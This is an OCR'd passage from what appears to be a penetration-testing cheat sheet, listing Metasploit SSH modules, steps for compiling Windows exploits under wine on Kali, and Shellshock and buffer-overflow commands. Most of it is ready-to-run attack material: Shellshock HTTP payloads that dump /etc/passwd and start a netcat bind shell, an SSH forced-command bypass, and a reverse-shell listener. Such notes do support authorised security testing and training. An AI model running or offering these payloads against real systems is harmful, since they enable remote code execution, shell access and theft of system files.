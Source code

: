       use auxiliary/scanner/ssh/ssh_login
      
      use post/multi/manage/shell_to_meterpreter
      
      https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

-   Compiling Windows Exploits on Kali

    -   wget -O mingw-get-setup.exe
        http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download  
        wine mingw-get-setup.exe  
        select mingw32-base

    -   cd /root/.wine/drive\_c/windows  
        wget http://gojhonny.com/misc/mingw\_bin.zip && unzip
        mingw\_bin.zip  
        cd /root/.wine/drive\_c/MinGW/bin  
        wine gcc -o ability.exe /tmp/exploit.c -lwsock32  
        wine ability.exe

-   Cross Compiling Exploits

    -   gcc -m32 -o output32 hello.c (32 bit)  
        gcc -m64 -o output hello.c (64 bit)

-   Shellshock

    -   git clone <https://github.com/nccgroup/shocker>

    -   ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c
        /cgi-bin/status --verbose

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        ssh -vvv  
        ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; echo \\$(</etc/passwd)\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock reverse Shell  
        nc -l -p 443

-   Buffer Overflow Exploits

    -   Pass 1000 A’s as a parameter  
        ./r00t $(python -c 'print "A" \* 1000')

    -   Random Pattern Create  
        /usr/share/metasploit-framework/tools\# ruby pattern\_create.rb
        1000
